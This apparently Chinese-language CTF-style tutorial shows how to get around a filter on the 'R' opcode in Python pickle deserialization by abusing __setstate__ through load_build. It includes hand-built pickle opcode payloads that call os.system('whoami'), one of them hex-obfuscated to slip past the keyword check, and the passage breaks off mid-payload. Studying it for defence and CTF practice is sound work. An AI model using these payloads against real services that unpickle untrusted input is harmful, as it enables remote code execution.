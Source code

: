 ### 绕过`R` 

要绕过`R` ，基本思路就是找pickle源码中形似`func(args)` 的代码

#### load_build （b）

```python
    def load_build(self):
        stack = self.stack
        state = stack.pop()
        inst = stack[-1]
        setstate = getattr(inst, "__setstate__", None)
        if setstate is not None:
            setstate(state)  # 这里可以看到有形似 func(args) 的代码，并且 setstate 和 state 我们都可控
            return
        slotstate = None
        if isinstance(state, tuple) and len(state) == 2:
            state, slotstate = state
        if state:
            inst_dict = inst.__dict__
            intern = sys.intern
            for k, v in state.items():
                if type(k) is str:
                    inst_dict[intern(k)] = v
                else:
                    inst_dict[k] = v
        if slotstate:
            for k, v in slotstate.items():
                setattr(inst, k, v)
```

`setstate` 我们只需要控制某个类的`__setstate__` 便可以

示例Payload

```python
class Target:
    def __init__(self):
        ser = opcode  # 输入点
        if b"R" in ser:
            print("Hack! <=@_@")
        else:
            obj = pickle.loads(ser)

# R被禁了，所以这种对类的实例化方法失效
opcode=b'''
ccopy_reg
_reconstructor
(c__main__
Target
c__builtin__
object
NtR(dV__setstate__
cos
system
ubVwhoami
b.
'''

# 要想找实例化，就是找__new__或者_instantiate等方法

# 用o对类进行实例化，用16进制代替__setstate__
opcode=b'''(c__main__
Target
o}(S"\\x5f\\x5f\\x73\\x65\\x74\\x73\\x74\\x61\\x74\\x65\\x5f\\x5f"
cos
```